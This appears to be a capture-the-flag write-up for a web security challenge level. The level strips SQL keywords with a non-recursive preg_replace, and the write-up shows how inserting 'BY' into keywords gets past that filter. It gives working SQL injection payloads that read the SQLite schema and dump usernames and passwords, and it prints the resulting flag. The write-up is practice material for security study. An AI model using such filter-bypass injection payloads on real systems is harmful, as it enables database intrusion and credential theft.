 ```yaml
---
layout: default
title: level02
---
```


Here it's like [level01](./level01.md), however, this time it uses `preg_replace` to replace keywords like *union, order, select, from, group, by* and so on.

The trick here is that it doesn't replace recursively, so if we will input: `sBYelect`, it'll remove only the *BY* but the select will still be there...

So, let's just push `BY` into all of the forbidden keywords.

- Request
> `5 UBYnion sBYelect 1,sql FBYROM sqlite_master`

- Answer:
> `CREATE TABLE users(id int(7), username varchar(255), password varchar(255))`

Okay, we can see there is also column for password, let's get all passwords and usernames:

- Request
> `5 uBYnion sBYelect gBYroup_concat(username),gBYroup_concat(password) fBYrom users`
- Answer:
> `WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`

Yay, the FLAG is found inside the passwords.

**Flag:** ***`WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`*** 
